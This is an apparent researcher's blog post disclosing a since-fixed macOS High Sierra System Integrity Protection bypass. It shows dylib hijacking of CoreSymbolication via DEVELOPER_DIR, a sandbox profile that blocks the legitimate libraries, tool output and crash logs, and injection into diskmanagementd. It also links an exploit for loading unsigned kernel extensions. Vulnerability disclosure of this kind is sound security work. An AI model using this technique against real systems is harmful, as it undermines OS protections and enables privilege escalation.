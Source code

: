 ```yaml
---
layout:	post
title:	"Bypass macOS Rootless by Sandboxing"
date:	2018-06-18
image: /img/2018-06-18-bypass-macos-rootless-by-sandboxing/elevated.png
show_excerpt: true
---
```


This bug has been fixed in Mojave Beta, but still present in latest High Sierra (10.13.5). It's a logic bug that an entitled binary tries to load an insecure external library controllable by environment variable. To exploit it we need to abuse sandbox, which is interesting that sometimes a mitigation could be turned to an exploit.

CoreSymbolication(`/System/Library/PrivateFrameworks/CoreSymbolication.framework`) has some private api for symbolication. When demangling swift application symbols, it tries to load external library in following order:

* `/System/Library/PrivateFrameworks/Swift/libswiftDemangle.dylib`
* `/Developer/Toolchains/XcodeDefault.xctoolchain/usr/lib/libswiftDemangle.dylib`
* `/usr/lib/libswiftDemangle.dylib`
* `${xcselect_get_developer_dir_path()}/Toolchains/XcodeDefault.xctoolchain/usr/lib/libswiftDemangle.dylib`

<!-- more -->

![](/img/2018-06-18-bypass-macos-rootless-by-sandboxing/AcYsN5lN3MwURaTyzmZYlg.png)

The function `xcselect_get_developer_dir_path` will return environ variable `DEVELOPER_DIR` if it's set. Absolutely controllable.

![](/img/2018-06-18-bypass-macos-rootless-by-sandboxing/5y2YMlFx8NPfDGRv3PXszg.png)

Actually the first `libswiftDemangle.dylib` candidate does exist. Will it reach the vulnerable branch? I'll talk about it later.

Apple has built-in `com.apple.SamplingTools` in:

```
/usr/bin/{filtercalltree,heap32,stringdups32,leaks32,heap,atos,vmmap32,sample,malloc_history32,symbols,vmmap,leaks,stringdups,malloc_history}
```

And they are entitled:

```shell
➜ ~ jtool --ent `which symbols`
<?xml version="1.0" encoding="UTF-8"?>
<!DOCTYPE plist PUBLIC "-//Apple//DTD PLIST 1.0//EN" "<http://www.apple.com/DTDs/PropertyList-1.0.dtd>">
<plist version="1.0">
<dict>
 <key>com.apple.private.kernel.get-kext-info</key>
 <true/>
 <key>com.apple.system-task-ports</key>
 <true/>
</dict>
</plist>
```

With this entitlement, SamplingTools can attach to SIP protected process with `task_for_pid`, even without root privilege.

```
$ vmmap Finder | head -n 8
Process: Finder [42164]
Path: /System/Library/CoreServices/Finder.app/Contents/MacOS/Finder
Load Address: 0x10515f000
Identifier: com.apple.finder
Version: 10.13.5 (10.13.5)
Build Info: Finder_FE-1054005004000000~3
Code Type: X86-64
Parent Process: ??? [1]
```

LLDB fails even it's root:

```
$ sudo lldb -n Finder
Password:
(lldb) process attach --name "Finder"
error: attach failed: cannot attach to process due to System Integrity Protection
```

So this seems to be like a meta entitlement. With it you can just inject to other entitled process and gain arbitrary entitlement.

Let's just start an application compiled with swift, then run `symbols [pid] -printDemangling` and it will call CoreSymbolication!demangle, which has potential ability to load insecure code.

But there are two problems. First, the last branch looks impossible to be reached because `/System/Library/PrivateFrameworks/Swift/libswiftDemangle.dylib` exists.

Actually we can just block them with a sandbox. **Yeah, use the security facility to trigger something insecure.**

```lisp
(version 1)
(allow default)
(deny file-read*
  (literal "/System/Library/PrivateFrameworks/Swift/libswiftDemangle.dylib")
  (literal "/Developer/Toolchains/XcodeDefault.xctoolchain/usr/lib/libswiftDemangle.dylib")
  (literal "/usr/lib/libswiftDemangle.dylib")
)
```

Then, spawn a child process with `symbols [pid] -printDemangling` to trigger dylib hijack.

Now we have a second problem. It crashes.

```
System Integrity Protection: enabled
Crashed Thread: 0 Dispatch queue: com.apple.main-threadException Type: EXC_BAD_ACCESS (Code Signature Invalid)
Exception Codes: 0x0000000000000032, 0x000000010d745000
Exception Note: EXC_CORPSE_NOTIFY
Termination Reason: Namespace CODESIGNING, Code 0x2
kernel messages:
External Modification Warnings:
Process used task_for_pid().
VM Regions Near 0x10d745000:
 MALLOC_LARGE 000000010d70a000-000000010d745000 [ 236K] rw-/rwx SM=PRV
--> mapped file 000000010d745000-000000010d746000 [ 4K] r-x/r-x SM=PRV Object_id=2929ab85
 mapped file 000000010d748000-000000010d762000 [ 104K] r--/r-- SM=ALI Object_id=2af85085Application Specific Information:
dyld: in dlopen()
/var/folders/4d/1_vz_55x0mn_w1cyjwr9w42c0000gn/T/tmp.0b5SeUjh/Toolchains/XcodeDefault.xctoolchain/usr/lib/libswiftDemangle.dylib
12 libdyld.dylib 0x00007fff66c9fd86 dlopen + 86
13 com.apple.CoreSymbolication 0x00007fff52d15332 invocation function for block in call_external_demangle(char const*) + 348
14 libdispatch.dylib 0x00007fff66c64e08 _dispatch_client_callout + 8
15 libdispatch.dylib 0x00007fff66c64dbb dispatch_once_f + 41
16 com.apple.CoreSymbolication 0x00007fff52cb880f demangle + 298
17 com.apple.CoreSymbolication 0x00007fff52cb85e3 TRawSymbol<Pointer64>::name() + 75
18 com.apple.CoreSymbolication 0x00007fff52cbd88e CSSymbolGetName + 166
```

com.apple.SamplingTools in latest macOS are code signed with [Library Validation](https://developer.apple.com/library/archive/documentation/Security/Conceptual/CodeSigningGuide/Procedures/Procedures.html) flag, so loading unsigned dylib is prohibited.

```
➜ ~ codesign -dvvv `which symbols`
Executable=/usr/bin/symbols
Identifier=com.apple.SamplingTools
Format=Mach-O thin (x86_64)
CodeDirectory v=20100 size=1384 flags=**0x2000(library-validation) **hashes=36+5 location=embedded
```

I just happened to have an El Capitan virtual machine and I looked into it. The previous SamplingTools distribution has valid code signature, but no library validation flag. So just copy to High Sierra and it works.

Although we can now invoke `task_for_pid` on any restricted process, it still requires the same euid, which means we need a local root privilege escalation exploit as part of the chain.

Now inject into `diskmanagementd` and you'll have the `com.apple.rootless.install.heritable` entitlement, which means the privilege to modify `/System` and spawn a shell without rootless restriction.

The bug has been fixed in Mojave Beta, no more external library, finally.

![](/img/2018-06-18-bypass-macos-rootless-by-sandboxing/vAP5r0UBzDCQcnPl8WjDqA.png)

#### Update 2019-05-14

This bug be exploited for kernel privilege escalation. Please refer to the slides for my HITB Ams 2019 talk:

<https://conference.hitb.org/hitbsecconf2019ams/materials/D2T2%20-%20ModJack%20-%20Hijacking%20the%20MacOS%20Kernel%20-%20Zhi%20Zhou.pdf>

And here's the exploit to load an unsigned kernel extension on macOS 10.13:

[**ChiChou/sploits**](https://github.com/ChiChou/sploits/tree/master/ModJack)